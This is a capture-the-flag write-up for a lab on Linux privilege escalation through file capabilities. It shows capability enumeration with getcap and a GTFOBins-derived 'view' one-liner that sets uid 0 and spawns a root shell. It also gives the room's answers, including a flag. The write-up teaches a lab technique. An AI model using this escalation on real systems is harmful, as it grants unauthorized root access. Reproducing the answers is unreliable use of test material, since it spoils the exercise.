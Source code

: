 ## Privilege Escalation Capabilities Solution

Capabilities which are used to grant specific prvileges to process or entities can be used for privilege escalation. These are directly associated with process or objects, allowing for finer-grained control over access. 

### How many binaries have set capabilities?

1. Run the following command to list enabled capabilities

`getcap -r / 2>/dev/null`

![Screenshot 2024-02-08 at 1 16 42 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1b2cf992-c502-421a-9021-2b13e46733dc)


**Answer: 6**

### What other binary can be used through its capabilities?
1. Go to GTFO to check which binaries can be exploited via capabilities [https://gtfobins.github.io/#+capabilities](https://gtfobins.github.io/#+capabilities)
2. From GTFO we can see that from the list of enabled capabilities (see above) `view` can be used.

**Answer: view**

### What is the content of the flag4.txt file? ###
1. Execute the following command based from GTFO. Don't forget to prepend `py3` as py is not supported for the machine. 
```
cp $(which view) .
./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

2. Exit vim

3. Run `cat /home/ubuntu/flag4.txt`

![Screenshot 2024-02-08 at 9 47 18 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/775dc683-65c0-4ed8-9122-13997d390a7f)

**Answer: THM-9349843**
